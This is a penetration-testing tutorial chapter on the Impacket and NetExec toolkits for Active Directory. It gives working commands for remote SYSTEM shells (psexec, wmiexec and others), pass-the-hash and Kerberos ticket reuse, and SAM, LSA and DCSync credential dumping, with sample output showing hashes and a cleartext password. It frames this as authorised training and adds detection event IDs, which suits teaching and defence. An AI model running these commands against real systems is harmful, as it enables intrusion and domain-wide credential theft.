








**Level:** Expert · **Track:** Penetration Testing · **Read time:** 330 min

This is Chapter 12 of the Active Directory attack notebook — Notebook 18 — and it is the chapter where the tools you have already been leaning on get taken apart and rebuilt from first principles. Every previous chapter used them in passing: Chapter 2 ran `bloodhound-python`, Chapter 3 sprayed with `netexec`, Chapter 4 kerberoasted with `GetUserSPNs.py`, Chapter 5 replayed tickets with Impacket, Chapter 7 DCSynced with `secretsdump.py`, Chapter 10 relayed with `ntlmrelayx.py`. Those were all one member of the same two families. This chapter finally teaches the families themselves — **Impacket** and **NetExec** (the actively maintained fork of the now-archived **CrackMapExec**) — so that you stop pasting commands and start choosing them.

The reason these two toolkits dominate AD work is simple: Windows domains are held together by a handful of remote protocols — **SMB**, **MS-RPC (DCERPC)**, **WMI**, **LDAP**, **MSSQL**, and **Kerberos** — and Impacket is a pure-Python re-implementation of all of them, while NetExec is a fast sweep-and-enumerate front end that speaks the same protocols across a whole subnet at once. Master these and you can execute code, dump secrets, move laterally, and read the directory *without ever touching a Windows machine you control* — from a single Linux attack box, over the network, using nothing but the protocols the domain already trusts.

A hard prerequisite before any of this touches a real network: **explicit written authorisation.** Remote code execution on domain machines, dumping the SAM or `NTDS.dit`, and replaying Kerberos tickets are unambiguously intrusive, high-impact actions. Everything below assumes a lab you built yourself or an engagement with a signed, scoped rules-of-engagement document. Build the lab in Part 14 and practise there.

## Why This Matters

Impacket is, without exaggeration, the single most important offensive toolkit in the Windows-attack ecosystem. It is the plumbing underneath BloodHound's Python collector, underneath `ntlmrelayx`, underneath a large fraction of the public AD exploit code on GitHub, and underneath commercial C2 frameworks' "run this over SMB" features. When you understand Impacket, you understand *how* Windows remote administration actually works on the wire — which is exactly the knowledge that separates an operator who can adapt when a tool fails from one who is stuck the moment the copy-pasted command errors.

NetExec matters for a different reason: **scale**. A real internal engagement starts with a `/16` or several `/24`s and one credential. You cannot hand-run Impacket against 4,000 hosts. NetExec takes a credential and a target range and answers, in seconds, "where does this work, where am I local admin, where can I dump secrets, what's the domain password policy, which shares can I read" — turning a foothold into a map. Defensively the same tool, pointed at your own estate, tells you exactly where your local-admin password reuse and weak shares are before an attacker finds them.

## Who This Is For

You should be comfortable with the earlier chapters of this notebook: the assumed-breach methodology (Chapter 1), enumeration with netexec and BloodHound (Chapters 2–3), Kerberoasting and AS-REP roasting (Chapter 4), the credential-replay attacks — Pass-the-Hash, Pass-the-Ticket, OverPass-the-Hash (Chapter 5), Golden/Silver tickets (Chapter 6), and DCSync (Chapter 7). This chapter is the toolkit primer those chapters kept promising. You do **not** need Python experience; every install step and command is shown. If you have only ever run `secretsdump.py -just-dc` and pasted hashes into hashcat without knowing that it spoke the **DRSUAPI** replication protocol to do it, this chapter turns that into real understanding.

---

## Part 1: The AD Attacker Toolkit — The Landscape and Where These Tools Fit

Before installing anything, you need a mental model of the ecosystem, because the same job can be done by three different tools and knowing *why* you'd pick one matters more than memorising flags.

Think of the toolkit in three layers:

1. **The protocol library layer — Impacket.** A pure-Python implementation of the Windows network protocols (SMB, DCERPC/MS-RPC, LDAP, Kerberos, MSSQL/TDS, NetBIOS). It ships with ~60 ready-to-run *example scripts* that each expose one capability (`psexec.py`, `secretsdump.py`, `GetUserSPNs.py`). It is precise, scriptable, single-target, and the ground truth for "what is actually possible over this protocol."

2. **The sweep-and-enumerate layer — NetExec (`nxc`).** A fast, multi-threaded front end that takes *a credential and a target range* and answers "where does this work and what can I see" across many hosts and multiple protocols at once, storing everything in a local database. It reuses Impacket under the hood for many operations. It is the tool you run *first* on a foothold.

3. **The graph/analysis layer — BloodHound** (Chapter 2) and the Kerberos specialists like **Rubeus** (Windows/C#, Chapter 4). Out of scope for this chapter but shown here for context — they consume the data the first two layers collect.



**The core division of labour, memorised as a sentence:** *NetExec finds where a credential works; Impacket does the precise, high-impact thing once you know where.* NetExec tells you "you are local admin on FILE01 and DB02"; Impacket's `secretsdump.py` then empties the LSASS secrets and SAM on FILE01, or `psexec.py` gives you a SYSTEM shell there.

| Task | Reach for… | Why |
|------|-----------|-----|
| Validate a credential across a `/24` | NetExec | Multi-host, threaded, one command |
| "Am I local admin anywhere?" | NetExec (`(Pwn3d!)` marker) | Purpose-built signal |
| Get a SYSTEM shell on one host | Impacket `psexec.py`/`wmiexec.py` | Interactive, precise |
| Dump SAM + LSA + cached creds on a host | Impacket `secretsdump.py` (or `nxc --sam --lsa`) | Full secret extraction |
| DCSync the whole domain (dump NTDS.dit) | Impacket `secretsdump.py -just-dc` | Speaks DRSUAPI replication |
| Kerberoast every SPN | Impacket `GetUserSPNs.py` | Requests + formats TGS-REP hashes |
| Spider every readable share for secrets | NetExec `--spider`/`spider_plus` module | Recursive, filtered, threaded |
| Relay coerced NTLM auth | Impacket `ntlmrelayx.py` | Full relay engine (Chapter 10) |

Keep this table in mind for the rest of the chapter: each script and module below slots into one of these rows.

---

## Part 2: Impacket From Zero — What It Is, How to Install It, and Its Architecture

**What Impacket is.** Impacket is a collection of Python classes for working with network protocols, maintained by Fortra (formerly SecureAuth). It is *not* primarily a set of tools — it is a *library* — but it ships a directory of `examples/` scripts that most people mean when they say "run Impacket." The library implements the packet structures and client state machines for SMB1/SMB2/SMB3, MSRPC/DCERPC over multiple transports (named pipes over SMB, TCP, HTTP), a large set of the MS-RPC interface definitions (SAMR, LSARPC, DRSUAPI, SVCCTL, TSCH, SCMR, WKSSVC, SRVSVC, EPM), NTLM and Kerberos authentication, LDAP, TDS (MSSQL), and more. Because it is pure Python, it runs from a Linux attack box and needs no Windows API — which is precisely why it is the backbone of Linux-based AD attacking.

**Install on Kali.** Kali ships Impacket, but the packaged version lags. Install the current release into a virtual environment (the modern, breakage-free way, since `pip install` system-wide is blocked on recent Kali by PEP 668):

```bash
# pipx is the cleanest install: isolated venv, scripts on PATH
sudo apt update && sudo apt install -y pipx
pipx ensurepath
pipx install impacket

# verify — you should see the version and the scripts land on PATH
pipx list | grep impacket
psexec.py -h | head -n 5
```

If you prefer a manual clone (useful for reading/patching source):

```bash
git clone https://github.com/fortra/impacket.git
cd impacket
python3 -m venv .venv && source .venv/bin/activate
pip install .            # installs library + example scripts into the venv
# scripts now live in .venv/bin as psexec.py, secretsdump.py, etc.
```

**A crucial naming note.** Depending on how Impacket was packaged, the example scripts may be named with a `.py` suffix (`psexec.py`) or as `impacket-psexec` (Debian/Kali packaging). Throughout this chapter the `.py` form is used; if `psexec.py` is "command not found," try `impacket-psexec`. They are the same script.

### 2.1 The target-and-credential syntax every Impacket script shares

Almost every Impacket example script accepts the same **connection target** grammar. Learn it once:

```
[[domain/]username[:password]@]<targetName or address>
```

Concretely:

```bash
# domain user with password, target by hostname
psexec.py CORP.LOCAL/jsmith:'P@ssw0rd!'@fileserver01

# same but target by IP, and omit the password to be prompted (avoids shell history)
psexec.py CORP.LOCAL/jsmith@10.10.10.25
Password:
```

Layered on top are the **authentication-material flags**, shared across nearly all scripts — this table is worth memorising because it is *how you pass every kind of credential*:

| Flag | Meaning | Example value |
|------|---------|---------------|
| (in target string) `user:pass` | Cleartext password | `jsmith:'P@ssw0rd!'` |
| `-hashes LMHASH:NTHASH` | Pass-the-Hash (use `:` with empty LM) | `-hashes :d0e...9f` |
| `-k` | Use Kerberos auth (reads ccache from `$KRB5CCNAME`) | `-k` |
| `-k -no-pass` | Kerberos only, no password prompt (ticket already in ccache) | `-k -no-pass` |
| `-aesKey <hex>` | Kerberos with AES256/128 key (OverPass-the-Hash) | `-aesKey 5e9...` |
| `-dc-ip <ip>` | Where to find the KDC/DC for name resolution & Kerberos | `-dc-ip 10.10.10.10` |
| `-target-ip <ip>` | Target's IP when its name won't resolve | `-target-ip 10.10.10.25` |

**Pass-the-Hash detail that trips everyone up:** the `-hashes` argument is `LMHASH:NTHASH`. Modern domains don't store LM hashes, so you supply an *empty* LM part and just the NT hash: `-hashes :32ed87bdb5fdc5e9cba88547376818d4`. Forgetting the leading colon is the number-one Impacket PtH mistake.

**Kerberos detail:** `-k` makes Impacket use Kerberos instead of NTLM. It reads the ticket from the file named in the `KRB5CCNAME` environment variable. So the Pass-the-Ticket workflow is always: obtain a `.ccache`, `export KRB5CCNAME=/path/ticket.ccache`, then run the script with `-k -no-pass`. When using Kerberos you must reference the target by its **hostname/FQDN**, never its IP — Kerberos service tickets are bound to the SPN, which contains the name, not the address. This is the second-most-common Impacket error: `-k` against an IP fails with `KRB_AP_ERR_...`.



**Security relevance (both sides):** everything in this chapter flows through that grammar. An attacker who has *any* one of {password, NT hash, AES key, ccache} can drive every script. A defender who understands this knows that stealing an NT hash is functionally equal to stealing the password for lateral movement — which is the whole argument for credential-tiering and for detecting the *replay*, since you often cannot prevent the possession.

---
## Part 3: A Guided Tour of the Impacket Example Scripts

Impacket ships roughly 60 scripts. You do not need all of them; you need to know which category each belongs to so you can find the right one under pressure. Here is the working taxonomy, organised by what job it does.

| Category | Key scripts | One-line purpose |
|----------|------------|------------------|
| **Remote execution** | `psexec.py`, `smbexec.py`, `wmiexec.py`, `atexec.py`, `dcomexec.py` | Run commands / get a shell on a remote host |
| **Credential dumping** | `secretsdump.py` | Extract SAM, LSA secrets, cached creds, and NTDS.dit |
| **Kerberos — get tickets** | `getTGT.py`, `getST.py` | Request TGTs / service tickets into a ccache |
| **Kerberos — roasting** | `GetUserSPNs.py`, `GetNPUsers.py` | Kerberoast (SPN) and AS-REP roast (no-preauth) |
| **Kerberos — forging** | `ticketer.py`, `raiseChild.py`, `getPac.py` | Golden/Silver tickets; child→parent domain escalation |
| **SMB / file** | `smbclient.py`, `smbserver.py`, `mssqlclient.py` | Interactive SMB client; host a rogue share; MSSQL shell |
| **MSRPC enumeration** | `samrdump.py`, `lookupsid.py`, `rpcdump.py`, `netview.py`, `reg.py`, `services.py` | Enumerate users/SIDs/endpoints; remote registry & services |
| **Relaying / MITM** | `ntlmrelayx.py`, `smbrelayx.py` | NTLM relay engine (covered fully in Chapter 10) |
| **Delegation / ADCS follow-through** | `findDelegation.py`, `addcomputer.py`, `rbcd.py`, `changepasswd.py` | Support scripts for delegation & account attacks |

The rest of this chapter deep-dives the ones you will use on essentially every engagement: the five execution methods, `secretsdump.py`, the Kerberos family, and the MSRPC enumerators.

---

## Part 4: Remote Execution With Impacket — Five Engines, Five Fingerprints

This is the part worth reading twice. Impacket gives you **five different ways to run a command on a remote Windows host**, and they are not interchangeable. Each abuses a different Windows subsystem, needs different privileges, and — crucially for both operators and defenders — leaves a *different fingerprint* in the logs. Picking the right one is a stealth and reliability decision.

All five require, at minimum, **local administrator rights** on the target (a domain user with no admin rights cannot use any of them to get code execution — that is by design; these abuse admin-only remote-management surfaces).



### 4.1 psexec.py — the loud, reliable classic

**What it does mechanically.** `psexec.py` re-implements the technique of the original Sysinternals PsExec: it connects to the target's `ADMIN$` share over SMB, **uploads a service executable** (a randomly named `.exe`), then talks to the **Service Control Manager (SVCCTL)** over the `\pipe\svcctl` named pipe to **create and start a Windows service** pointing at that binary. The service runs as **`NT AUTHORITY\SYSTEM`**, and Impacket wires its stdin/stdout to a named pipe so you get an interactive SYSTEM shell.

```bash
psexec.py CORP.LOCAL/administrator:'P@ssw0rd!'@10.10.10.25
```

Realistic output:

```
Impacket v0.12.0 - Copyright Fortra, LLC

[*] Requesting shares on 10.10.10.25.....
[*] Found writable share ADMIN$
[*] Uploading file kQwErTz.exe
[*] Opening SVCManager on 10.10.10.25.....
[*] Creating service aBcD on 10.10.10.25.....
[*] Starting service aBcD.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

**Why it's loud (blue-team relevance):** it creates a service — **Event ID 7045 "A new service was installed"** in the System log — and drops a binary to disk on `ADMIN$`. It also generates **4697** (service installed, Security log) if that auditing is on, and the random service/binary names are themselves a signature. This is the *first* thing EDR flags. Use it when you don't care about noise (CTF, lab, authorised loud test) or when quieter methods fail.

Useful flags:

| Flag | Effect |
|------|--------|
| `-service-name <name>` | Use a fixed service name instead of random (blends with a real one, or is more predictable) |
| `-remote-binary-name <name>` | Control the dropped `.exe` name |
| `-c <localfile>` | Upload and execute your own binary instead of `cmd.exe` |
| `command` (positional) | Run one command non-interactively instead of a shell |

### 4.2 smbexec.py — semi-interactive, no binary upload

**Mechanics.** `smbexec.py` also creates a service via SVCCTL, but instead of uploading an executable it creates a service whose command line is a `cmd.exe /c` invocation. Each command you type spawns a *new* service that runs `cmd.exe /c "<your command> > %TEMP%\output"`, then reads the output file back over SMB. It does **not** drop a custom binary, which historically evaded some AV that watched for the PsExec binary.

```bash
smbexec.py CORP.LOCAL/administrator:'P@ssw0rd!'@10.10.10.25
```

```
[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system
```

**Trade-off:** it is *semi-interactive* (each command is a fresh service start, so it's slower and you can't run truly interactive programs), and it is arguably noisier per-command because it creates a service *every command* (repeated 7045/7036 events). Runs as SYSTEM.

### 4.3 wmiexec.py — the quiet workhorse

**Mechanics.** `wmiexec.py` uses **WMI (Windows Management Instrumentation)** over DCERPC to call `Win32_Process.Create`, spawning your command. Output is retrieved by redirecting to a file on `ADMIN$` and reading it back over SMB. Critically, **it creates no service and drops no binary** — so no 7045 event. This is the default choice when you want to be quieter.

```bash
wmiexec.py CORP.LOCAL/administrator:'P@ssw0rd!'@10.10.10.25
```

```
[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
C:\>whoami
corp\administrator
```

**Key difference from psexec:** wmiexec typically runs as **the user you authenticated as** (here `corp\administrator`), *not* SYSTEM. If you need SYSTEM specifically (e.g., to read another user's DPAPI), psexec/smbexec give it; wmiexec does not. **Blue-team relevance:** the fingerprint is a `wmiprvse.exe` parent spawning `cmd.exe` — **Event ID 4688** process-creation with that parentage, plus WMI-Activity Operational log entries. Quieter than a service, but far from invisible to a tuned SOC.

### 4.4 atexec.py — abuse the Task Scheduler

**Mechanics.** `atexec.py` talks to the **Task Scheduler service (TSCH / ATSVC)** over the `\pipe\atsvc` named pipe to register and immediately run a scheduled task that executes your command, then reads the output. No service, no binary — a scheduled task instead.

```bash
atexec.py CORP.LOCAL/administrator:'P@ssw0rd!'@10.10.10.25 "ipconfig /all"
```

```
[*] This will work ONLY on Windows >= Vista
[*] Creating task \aXbYcZ
[*] Running task \aXbYcZ
[*] Deleting task \aXbYcZ
[*] Attempting to read ATSVC output...
Windows IP Configuration ...
```

It runs one command (non-interactive) as SYSTEM. **Blue-team relevance:** **Event ID 4698 "A scheduled task was created"** (and 4699 on delete) — a distinct and very huntable signal.

### 4.5 dcomexec.py — execution via DCOM objects

**Mechanics.** `dcomexec.py` abuses **DCOM** application objects (default `MMC20.Application`, also `ShellWindows`/`ShellBrowserWindow`) to invoke `ExecuteShellCommand`, running your command through a legitimate COM server. It uses ports 135 + a dynamic RPC port rather than relying on the SVCCTL-over-445 path, which is useful when service creation is monitored.

```bash
dcomexec.py -object MMC20 CORP.LOCAL/administrator:'P@ssw0rd!'@10.10.10.25
```

**Blue-team relevance:** the fingerprint is a `mmc.exe` (or `explorer.exe`) parent spawning your command — an unusual parentage that mature EDR flags.

### 4.6 Choosing between them — the comparison you'll actually use

| Method | Mechanism | Runs as | Drops binary? | Creates service? | Loudest event ID | Interactive? |
|--------|-----------|---------|---------------|------------------|------------------|--------------|
| `psexec.py` | SVCCTL + uploaded service exe | SYSTEM | **Yes** | **Yes** | 7045 / 4697 | Full shell |
| `smbexec.py` | SVCCTL, `cmd /c` service | SYSTEM | No | Yes (per cmd) | 7045 / 7036 | Semi |
| `wmiexec.py` | WMI `Win32_Process.Create` | Auth user | No | No | 4688 (wmiprvse child) | Semi |
| `atexec.py` | Task Scheduler (ATSVC) | SYSTEM | No | No | 4698 / 4699 | One command |
| `dcomexec.py` | DCOM `ExecuteShellCommand` | Auth user | No | No | 4688 (mmc/explorer child) | Semi |

**Operator rule of thumb:** default to **wmiexec** for quiet lateral movement, escalate to **psexec** when you specifically need a reliable SYSTEM shell or wmiexec is blocked, keep **atexec/dcomexec** as fallbacks when service creation or WMI is monitored/blocked. **On an authorised engagement you should deliberately vary methods** so the client's detection team gets to test against more than one fingerprint.

---
## Part 5: secretsdump.py — The Single Most Important Impacket Script

If you learn one Impacket script deeply, make it `secretsdump.py`. It is the tool that turns "local admin on a box" or "replication rights in the domain" into *hashes for everyone*. It has three distinct secret sources and it is essential to understand which one you're using, because they need different privileges and produce different data.

### 5.1 The three secret sources



1. **SAM** — the local Security Account Manager database. On any non-DC host, holds the NT hashes of *local* accounts (the local `Administrator`, etc.). Needs local admin on that host. This is what reveals **local-admin password reuse** across an estate.
2. **LSA secrets** — cached secrets in the registry: service account plaintext passwords, **cached domain logons** (MSCACHEv2/DCC2 hashes of the last domain users who logged in), the machine account hash, DPAPI keys. Needs local admin.
3. **NTDS.dit** — the domain's entire account database, extracted from a Domain Controller. `secretsdump.py` can pull it **remotely over the DRSUAPI replication protocol (DCSync)** if you hold replication rights (Domain Admin, or delegated `DS-Replication-Get-Changes` + `-All`, per Chapter 7), or from an offline copy of `NTDS.dit` + `SYSTEM` hive.

### 5.2 Local dump (SAM + LSA) against one host

```bash
secretsdump.py CORP.LOCAL/administrator:'P@ssw0rd!'@10.10.10.25
```

Annotated output:

```
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x8f3b...c2
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b...:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping cached domain logon information (domain/username:hash)
CORP.LOCAL/jsmith:$DCC2$10240#jsmith#a1b2c3...   <-- MSCACHEv2, crackable
[*] Dumping LSA Secrets
CORP\SQLSvc:PlaintextServicePassword123!          <-- service acct in cleartext!
$MACHINE.ACC: aad3b435...:e9f8...                 <-- machine account NT hash
[*] Cleaning up...
[*] Stopping service RemoteRegistry
```

Three high-value observations from that output every operator should internalise:

- The `Administrator:500:...:32ed87bdb5fdc5e9cba88547376818d4:::` line is a **Pass-the-Hash–ready** local admin hash. If the same hash appears on other hosts (test with NetExec), you have estate-wide local admin via **password reuse** — one of the most common paths to domain compromise.
- The `$DCC2$` line is a **cached domain credential** (MSCACHEv2). It cannot be passed (it's not an NT hash), but it can be **cracked offline** with hashcat mode `2100`.
- The `CORP\SQLSvc:Plaintext...` line is an **LSA secret** — a service account password stored so the service can auto-start. These are frequently high-privilege and are handed to you in cleartext.

**secretsdump auto-restores state:** note it *starts* `RemoteRegistry` and *stops* it again, and cleans up. That housekeeping is itself a fingerprint (RemoteRegistry start/stop pair).

### 5.3 Remote DCSync — dump the whole domain

With Domain Admin (or delegated replication rights), pull every hash without ever logging into the DC's OS:

```bash
# -just-dc = NTDS via DRSUAPI (hashes + Kerberos keys)
secretsdump.py -just-dc CORP.LOCAL/administrator:'P@ssw0rd!'@dc01.corp.local
```

```
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d7e9...:::
CORP\Administrator:500:aad3b...:32ed87bdb5fdc5e9cba88547376818d4:::
CORP\jsmith:1104:aad3b...:64f12cddaa88057e06a81b54e73b949b:::
...
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:5e9c...
[*] Cleaning up...
```

